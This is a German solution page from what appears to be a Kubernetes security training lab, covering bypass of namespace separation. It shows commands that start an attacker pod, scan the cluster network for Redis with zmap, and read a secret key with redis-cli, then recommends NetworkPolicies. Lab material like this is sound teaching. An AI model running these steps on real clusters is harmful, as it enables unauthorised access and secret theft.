


# Szenario 11 – Kubernetes Namespaces Bypass

- **Kategorie**: Netzwerk & SSRF
- **Zielressource**: Service `cache-store-service` im Namespace `secure-middleware` (Port `6379` / Redis)

## Kurzinfo & Risiko
Kubernetes-Namespaces bieten logische Trennung, aber **keine Netzwerkisolation**. Im flachen Standardnetzwerk kann ein Pod aus `default` Dienste in `secure-middleware` scannen und auslesen.



## Solution
```bash
# Angreifer-Pod starten und Netzwerk ermitteln
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
ip route
ifconfig
printenv

# Cluster-Range nach Port 6379 scannen (oder DNS cache-store-service.secure-middleware nutzen)
zmap -p 6379 10.0.0.0/8 -o results.csv

# Mit Redis verbinden und Secret-Key auslesen
redis-cli -h 10.12.0.2
KEYS *
GET SECRETSTUFF
```



## Gegenmaßnahmen
- Network-Policy-fähiges CNI (Calico/Cilium) verwenden und strikte `NetworkPolicy`-Grenzen zwischen Namespaces definieren.

---
[← Vorheriges Szenario](./scenario-10.md) | [Solutions-Übersicht](./README.md) | [Nächstes Szenario →](./scenario-12.md)
